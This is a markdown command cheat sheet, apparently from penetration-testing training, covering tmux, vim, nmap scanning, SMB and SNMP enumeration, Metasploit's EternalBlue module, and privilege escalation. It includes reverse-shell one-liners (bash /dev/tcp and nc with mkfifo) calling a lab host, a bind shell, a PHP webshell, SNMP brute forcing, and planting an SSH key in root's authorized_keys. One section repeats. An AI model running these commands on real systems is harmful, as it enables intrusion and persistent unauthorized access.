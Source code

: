 # Command Reference

## Basic Tools

### General

- [**sudo openvpn user.ovpn**](#): **Connect to VPN**
- [**ifconfig/ip a**](#): **Show our IP address**
- [**netstat -rn**](#): **Show networks accessible via the VPN**
- [**ssh user@10.10.10.10**](#): **SSH to a remote server**
- [**ftp 10.129.42.253**](#): **FTP to a remote server**

### tmux

- [**tmux**](#): **Start tmux**
- [**ctrl+b**](#): **tmux: default prefix**
- [**prefix c**](#): **tmux: new window**
- [**prefix 1**](#): **tmux: switch to window (1)**
- [**prefix shift+%**](#): **tmux: split pane vertically**
- [**prefix shift+"**](#): **tmux: split pane horizontally**

### Vim

- [**vim file**](#): **vim: open file with vim**
- [**esc+i**](#): **vim: enter insert mode**
- [**esc**](#): **vim: back to normal mode**
- [**x**](#): **vim: Cut character**
- [**dw**](#): **vim: Cut word**
- [**dd**](#): **vim: Cut full line**
- [**yw**](#): **vim: Copy word**
- [**yy**](#): **vim: Copy full line**
- [**p**](#): **vim: Paste**
- [**:1**](#): **vim: Go to line number 1.**
- [**:w**](#): **vim: Write the file 'i.e. save'**
- [**:q**](#): **vim: Quit**
- [**:q!**](#): **vim: Quit without saving**
- [**:wq**](#): **vim: Write and quit**

### Pentesting

#### Service Scanning

- [**nmap 10.129.42.253**](#): **Run nmap on an IP**
- [**nmap -sV -sC -p- 10.129.42.253**](#): **Run an nmap script scan on an IP**
- [**locate scripts/citrix**](#): **List various available nmap scripts**
- [**nmap --script smb-os-discovery.nse -p445 10.10.10.40**](#): **Run an nmap script on an IP**
- [**netcat 10.10.10.10 22**](#): **Grab banner of an open port**

# Command Reference

## Basic Tools

### General

- [**nmap 10.129.42.253**](#): **Run nmap on an IP**
- [**nmap -sV -sC -p- 10.129.42.253**](#): **Run an nmap script scan on an IP**
- [**locate scripts/citrix**](#): **List various available nmap scripts**
- [**nmap --script smb-os-discovery.nse -p445 10.10.10.40**](#): **Run an nmap script on an IP**
- [**netcat 10.10.10.10 22**](#): **Grab banner of an open port**

### SMB Operations

- [**smbclient -N -L \\\\10.129.42.253**](#): **List SMB Shares**
- [**smbclient \\\\10.129.42.253\\users**](#): **Connect to an SMB share**

### SNMP Operations

- [**snmpwalk -v 2c -c public 10.129.42.253 1.3.6.1.2.1.1.5.0**](#): **Scan SNMP on an IP**
- [**onesixtyone -c dict.txt 10.129.42.254**](#): **Brute force SNMP secret string**

## Web Enumeration

- [**gobuster dir -u http://10.10.10.121/ -w /usr/share/dirb/wordlists/common.txt**](#): **Run a directory scan on a website**
- [**gobuster dns -d inlanefreight.com -w /usr/share/SecLists/Discovery/DNS/namelist.txt**](#): **Run a sub-domain scan on a website**
- [**curl -IL https://www.inlanefreight.com**](#): **Grab website banner**
- [**whatweb 10.10.10.121**](#): **List details about the webserver/certificates**
- [**curl 10.10.10.121/robots.txt**](#): **List potential directories in robots.txt**

### Public Exploits

- [**searchsploit openssh 7.2**](#): **Search for public exploits for a web application**
- [**msfconsole**](#): **Start the Metasploit Framework**
- [**search exploit eternalblue**](#): **Search for public exploits in MSF**
- [**use exploit/windows/smb/ms17_010_psexec**](#): **Start using an MSF module**
- [**show options**](#): **Show required options for an MSF module**
- [**set RHOSTS 10.10.10.40**](#): **Set a value for an MSF module option**
- [**check**](#): **Test if the target server is vulnerable**
- [**exploit**](#): **Run the exploit on the target server if vulnerable**

### Using Shells

- [**nc -lvnp 1234**](#): **Start a nc listener on a local port**
- [**bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'**](#): **Send a reverse shell from the remote server**
- [**rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f**](#): **Another command to send a reverse shell from the remote server**
- [**rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f**](#): **Start a bind shell on the remote server**
- [**nc 10.10.10.1 1234**](#): **Connect to a bind shell started on the remote server**

### Upgrade Shell TTY

- [**python -c 'import pty; pty.spawn("/bin/bash")'**](#): **Upgrade shell TTY (1)**
- **ctrl+z then stty raw -echo then fg then enter twice**: **Upgrade shell TTY (2)**

### Create Webshell

- [**echo "<?php system(\$_GET['cmd']);?>" > /var/www/html/shell.php**](#): **Create a webshell PHP file**
- [**curl http://SERVER_IP:PORT/shell.php?cmd=id**](#): **Execute a command on an uploaded webshell**

### Privilege Escalation

- [**./linpeas.sh**](#): **Run linpeas script to enumerate remote server**
- [**sudo -l**](#): **List available sudo privileges**
- [**sudo -u user /bin/echo Hello World!**](#): **Run a command with sudo**
- [**sudo su -**](#): **Switch to root user (if we have access to sudo su)**
- [**sudo su user -**](#): **Switch to a user (if we have access to sudo su)**
- [**ssh-keygen -f key**](#): **Create a new SSH key**
- [**echo "ssh-rsa AAAAB...SNIP...M= user@parrot >> /root/.ssh/authorized_keys**](#): **Add the generated public key to the user**
- [**ssh root@10.10.10.10 -i key**](#): **SSH to the server with the generated private key**

### Transferring Files

- [**python3 -m http.server 8000**](#): **Start a local webserver**
- [**wget http://10.10.14.1:8000/linpeas.sh**](#): **Download a file on the remote server from our local machine**
- [**curl http://10.10.14.1:8000/linenum.sh -o linenum.sh**](#): **Download a file on the remote server from our local machine**
- [**scp linenum.sh user@remotehost:/tmp/linenum.sh**](#): **Transfer a file to the remote server with SCP (requires SSH access)**

### Convert Files

- [**base64 shell -w 0**](#): **Convert a file to base64**
- [**echo f0VMR...SNIO...InmDwU | base64 -d > shell**](#): **Convert a file from base64 back to its original**
- [**md5sum shell**](#): **Check the file's md5sum to ensure it converted correctly**
